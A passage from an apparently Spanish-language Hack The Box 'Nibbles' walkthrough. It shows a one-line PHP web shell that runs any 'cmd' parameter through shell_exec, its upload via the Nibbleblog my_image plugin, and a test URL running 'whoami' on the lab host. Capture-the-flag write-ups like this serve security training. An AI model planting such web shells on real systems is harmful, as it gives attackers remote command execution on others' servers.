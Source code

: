 ```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

![""](/assets/images/htb-nibbles/nibbles-web8.png)

En la parte de abajo nos debe aparecer un mensaje indicando que el archivo se subir exitosamente. Ahora debemos descubrir la ruta en donde se alojó nuestro archivo y si ponemos un poco de atención en lo que nos descargamos de el recurso `/content/`, vemos que bajo la ruta `/content/private/` existe un directorio llamado **plugins** y dentro de este se encuentra otro directorio de nombre **my_image**; por lo que es muy probable que ahí este nuestro archivo.

![""](/assets/images/htb-nibbles/nibbles-web9.png)

Vamos a seleccionar nuestro archivo y tratar de ejecutar algún comando a nivel de sistema.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```
